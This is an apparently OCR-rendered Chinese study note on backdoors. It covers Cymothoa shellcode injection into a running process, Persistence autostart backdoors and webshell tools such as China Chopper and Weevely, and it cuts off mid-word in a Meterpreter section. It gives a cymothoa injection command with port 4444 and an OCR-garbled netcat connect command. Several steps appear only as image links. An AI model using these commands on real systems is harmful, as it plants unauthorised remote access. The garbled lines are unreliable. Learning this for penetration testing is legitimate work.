 ## 操作系统后门
### Cymothoa后门
Cymothoa原理是将ShellCode注入现有进程(即插进程).那么也就是说当Cymothoa宿主停止执行的时候,Cymothoa也会自动停止.
1. 选择 PID 为 982 的进程为宿主进程,选用第一类 ShellCode,指定 Pay load服务端口为4444
```shell
cymothoa -p 982 -s 1 -y 4444
```
2. 连接目标主机的后门
```shell
Ne -nvv 192.168 . 31.247 4444
```

### Persistence 后门
Persistence是一款使用安装自启动方式的持久性后门程序
1. 查看所有命令
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/9q74dcec3qt.png" width="600px" />

2. 创建后门
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/e2clc8dzkae.png" width="600px" />

参数含义:
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/clzrvb4jo8k.png" width="600px" />


## WEB后门

### 常见工具
windows系统:
1. 中国菜刀(Cknife)
2. 中国蚁剑

Kali系统:
1. Weevely(只支持php)

### Meterpreter 后门
使用 PHP meterpreter 这个payload创建一个m






























